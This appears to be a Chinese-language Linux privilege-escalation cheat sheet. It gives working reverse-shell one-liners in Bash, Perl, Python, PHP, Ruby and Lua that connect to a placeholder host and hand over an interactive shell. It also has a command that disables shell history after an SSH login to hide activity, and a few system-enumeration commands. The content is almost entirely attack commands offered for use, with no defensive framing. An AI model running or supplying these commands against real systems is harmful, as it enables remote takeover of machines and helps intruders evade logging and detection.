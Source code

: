 # GUN Linux 提权笔记

### Shell反弹
* **Bash反弹**
``` sh
$ bash -i >& /dev/tcp/1.2.3.4/1234 0>&1
```
* **Perl反弹**
``` sh
$ perl -e 'use Socket;$i="1.2.3.4";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* **Python反弹**
``` sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* **PHP反弹**
``` sh
$ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* **Ruby反弹**
``` sh
$ ruby -rsocket -e'f=TCPSocket.open("1.2.3.4",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

* **Lua反弹**
``` sh
$ lua -e "require('socket');require('os');t=socket.tcp();t:connect('1.2.3.4','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 登录SSH后不记录History
``` sh
$ unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0
```

### 查看系统版本
``` sh
$ uname -a
$ cat /etc/issue
$ cat /etc/*-release
$ cat /proc/version
```
